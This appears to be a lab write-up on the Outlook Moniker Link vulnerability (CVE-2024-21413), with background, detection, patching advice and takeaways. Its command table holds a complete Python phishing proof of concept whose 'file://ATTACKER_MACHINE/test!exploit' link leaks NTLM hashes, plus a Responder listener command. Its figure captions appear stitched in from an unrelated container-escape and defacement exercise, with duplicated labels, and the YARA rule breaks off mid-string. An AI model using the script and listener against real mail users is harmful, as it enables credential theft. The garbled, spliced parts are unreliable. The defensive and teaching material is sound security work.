




# Moniker Link (CVE-2024-21413)

---
The disclosure of CVE-2024-21413 in February 2024 introduced a critical vulnerability in Microsoft Outlook, colloquially termed the 
Moniker Link. This flaw, credited to Haifei Li of Check Point Research, carries a CVSS score of 9.8 due to its ability to bypass 
Outlook's Protected View security boundary. By manipulating specific hyperlink structures, an attacker can force the client to leak 
NTLM credentials or potentially execute remote code. The vulnerability targets the way Outlook handles Monikers—a Component Object 
Model (COM) feature—when processing HTML-rendered emails. While Outlook typically warns users when external applications or dangerous 
protocols are triggered, this specific exploit slips through those checks by utilizing malformed file URIs. I have noted that the 
official vulnerability details are maintained in the MSRC update guide at [https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2024-21413](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2024-21413).

The technical core of the exploit involves the `file://` protocol. A standard link to a network share would usually be caught by 
Protected View, preventing the automatic transmission of NTLM hashes. However, appending the `!` special character followed by a 
string to the Moniker Link tricks the parser into treating the request as a sub-object call within the COM framework, which effectively
silences the security warnings. For example, a link structured as `file://<ATTACKER_IP>/test!exploit` triggers an SMB authentication 
attempt without user intervention beyond the initial click. This results in the victim's machine sending a Net-NTLMv2 hash to the 
attacker’s listener. I found that using Responder or an Impacket-based SMB server is sufficient to capture these hashes for offline 
cracking. A functional Python implementation of this attack vector has been archived on GitHub at [https://github.com/cmnatic](https://github.com/cmnatic).

Detecting this activity requires monitoring for specific patterns in email metadata. Florian Roth and X__Junior have developed a 
YARA rule designed to identify the `file://` Moniker Link pattern within email files, which is a necessary step for organizations 
unable to patch immediately. The rule specifically looks for long file URI strings ending with the exclamation point delimiter. On 
the network side, SMB traffic originating from workstations toward external, untrusted IP addresses serves as a primary indicator of 
compromise. Detailed detection references and the YARA rule structure are available at [https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability/](https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability/).

Remediation is restricted to official vendor patches, as the bypass occurs deep within the URI parsing logic where configuration-level 
hardening is ineffective. Microsoft addressed the issue in the February 2024 Patch Tuesday cycle, and I have observed that versions of 
Office as far back as 2016 are impacted. Disabling SMB externally is a viable defensive layer, but it does not address the root cause 
of the COM-based bypass. I have confirmed that updating the Office installation through the Microsoft Update Catalog or standard 
Windows Update channels is the only definitive way to mitigate the risk of both the credential leak and the potential for remote code 
execution via COM instantiation.

---
| Description | Code/Command |
| --- | --- |
| SMB Credential Capture Listener | `responder -I ens5` |
| Python Exploit Script (PoC) | `import smtplib; from email.mime.text import MIMEText; from email.mime.multipart import MIMEMultipart; from email.utils import formataddr; sender_email = 'attacker@monikerlink.thm'; receiver_email = 'victim@monikerlink.thm'; password = input("Enter your attacker email password: "); html_content = """<!DOCTYPE html><html lang="en">
<a href="file://ATTACKER_MACHINE/test!exploit">Click me</a>
</body></html>"""; message = MIMEMultipart(); message['Subject'] = "CVE-2024-21413"; message["From"] = formataddr(('CMNatic', sender_email)); message["To"] = receiver_email; msgHtml = MIMEText(html_content,'html'); message.attach(msgHtml); server = smtplib.SMTP('MAILSERVER', 25); server.ehlo(); try: server.login(sender_email, password); except Exception as err: print(err); exit(-1); try: server.sendmail(sender_email, [receiver_email], message.as_string()); print("\n Email delivered"); except Exception as error: print(error); finally: server.quit()` |
| YARA Detection Rule | `rule EXPL_CVE_2024_21413_Microsoft_Outlook_RCE_Feb24 { meta: description = "Detects emails that contain signs of a method to exploit CVE-2024-21413 in Microsoft Outlook" author = "X__Junior, Florian Roth" reference = "https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability/" strings: $a1 = "Subject: " $a2 = "Received: " $xr1 = /file:///\\[^"']{6,600}.(docx |

---

  <table>
    <tr>
      <td>
      <td></td>
    </tr>
    <tr>
      <td align="center"><strong>Figure 1a:</strong> Responder Application</td>
      <td align="center"><strong>Figure 1b:</strong> Target Victim MS Outlook</td>
    </tr>
    <tr>
      <td>
      <td></td>
    </tr>
     <tr>
      <td align="center"><strong>Figure 2a:</strong> Copying Exploit.py Script</td>
      <td align="center"><strong>Figure 2b:</strong> Creating Exploit.py Script File</td>
    </tr>
  </table>

  <table>
    <tr>
      <td>
      <td></td>
    </tr>
    <tr>
      <td align="center"><strong>Figure 3a:</strong> Final defacement after container escape</td>
      <td align="center"><strong>Figure 3b:</strong> Restored website after running restoration script</td>
    </tr>
    <tr>
      <td>
      <td></td>
    </tr>
     <tr>
      <td align="center"><strong>Figure 4a:</strong> Using deployer bash to find the flag</td>
      <td align="center"><strong>Figure 4b:</strong> Incrementing the number on link to find secret code</td>
    </tr>
  </table>

  <table>
    <tr>
      <td>
      <td></td>
    </tr>
    <tr>
      <td align="center"><strong>Figure 5a:</strong> Final defacement after container escape</td>
      <td align="center"><strong>Figure 5b:</strong> Restored website after running restoration script</td>
    </tr>
    <tr>
      <td>
      <td></td>
    </tr>
     <tr>
      <td align="center"><strong>Figure 5a:</strong> Using deployer bash to find the flag</td>
      <td align="center"><strong>Figure 5b:</strong> Incrementing the number on link to find secret code</td>
    </tr>
  </table>

---

### Key Takeaways

* Update all Microsoft Office installations immediately via Windows Update or the Microsoft Update Catalog to resolve the underlying
  parser flaw.
* Be aware that Protected View is bypassed by this vulnerability; users should not rely on Outlook's standard security prompts as
  a safety indicator.
* Implement the provided YARA rule to scan incoming mail streams and stored .eml or .msg files for malicious Moniker Link patterns.
* Monitor egress network traffic for unauthorized SMB (port 445) connections to external IP addresses.
* Train users to inspect hyperlinks and treat unsolicited emails with high suspicion, regardless of how the link appears to be
  rendered in the HTML body.

---
